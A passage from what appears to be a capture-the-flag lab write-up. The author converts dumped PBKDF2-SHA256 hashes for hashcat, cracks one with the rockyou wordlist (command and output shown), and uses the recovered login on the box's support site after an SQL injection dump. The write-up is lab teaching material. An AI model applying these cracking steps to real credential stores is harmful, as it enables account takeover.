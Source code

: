 
> This class implements a generic `PBKDF2-HMAC-SHA256`-based password hash,
> and follows the [Password Hash
> Interface](https://passlib.readthedocs.io/en/1.6.5/password_hash_api.html#password-
> hash-api).

Feeling confident I had the right hash, I converted the hashes into the format
`hashcat` expects for this hash:

    
    
    sha256:5000:aA3h3LvXOseYk3IupVQKgQ:ogPU/XoFb.nzdCGDulkW3AeDZPbK580zeTxJnG0EJ78
    sha256:5000:GgNACCFkDOE8B4AwZgzBuA:IXewCMHWhf7ktju5Sw.W.ZWMyHYAJ5mpvWialENXofk
    sha256:5000:BCDkXKuVMgaAEMJ4z5mzdg:GNn4Ti/hUyMgoyI7GKGJWeqlZg28RIqSqspvKQq6LWY
    sha256:5000:bU2JsVYqpbT2PqcUQmjN.Q:hO7DfQLTL6Nq2MeKei39Jn0ddmqly3uBxO/tbBuw4DY
    sha256:5000:Zax17l1Lac25V6oVwnjPWQ:oTYQQVsuSz9kmFggpAWB0yrKsMdPjvfob9NfBq4Wtkg
    sha256:5000:d47xHsP4P6eUUgoh5BzjfA:jWgyYmxDK.slJYUTsv9V9xZ3WWwcl9EBOsz.bARwGBQ
    

And then ran `hashcat`. While pbkdf2 is notoriously slow to crack, this case
proves that even they can be cracked with a known password, as I get the
password for wizard.oz:

    
    
    $ hashcat -m 10900 users.hashes /usr/share/wordlists/rockyou.txt -o users.cracked --force
    ...[snip]...
    Session..........: hashcat
    Status...........: Exhausted
    Hash.Type........: PBKDF2-HMAC-SHA256
    Hash.Target......: users.hashes
    Time.Started.....: Fri Nov  2 19:22:22 2018 (7 hours, 0 mins)
    Time.Estimated...: Sat Nov  3 02:22:27 2018 (0 secs)
    Guess.Base.......: File (/usr/share/wordlists/rockyou.txt)
    Guess.Queue......: 1/1 (100.00%)
    Speed.Dev.#1.....:     2920 H/s (1.81ms)
    Recovered........: 1/6 (16.67%) Digests, 1/6 (16.67%) Salts
    Progress.........: 86066310/86066310 (100.00%)
    Rejected.........: 0/86066310 (0.00%)
    Restore.Point....: 14344385/14344385 (100.00%)
    Candidates.#1....: $HEX[206b72697374656e616e6e65] -> $HEX[042a0337c2a156616d6f732103]
    HWMon.Dev.#1.....: N/A
    
    $ cat users.cracked
    sha256:5000:BCDkXKuVMgaAEMJ4z5mzdg:GNn4Ti/hUyMgoyI7GKGJWeqlZg28RIqSqspvKQq6LWY:wizardofoz22
    

### Website - Port 8080

The root redirects to `/login`, which presents a login page for Golden Brick
Road LLC’s support page:

![1541240214642](https://0xdfimages.gitlab.io/img/1541240214642.png)

The creds from the table (“wizard.oz” / “wizardofoz22”) work to get in, see 12
tickets. I won’t show it here, but these are the output of the other table in
ozdb, tickets, that I dumped using SQLI:
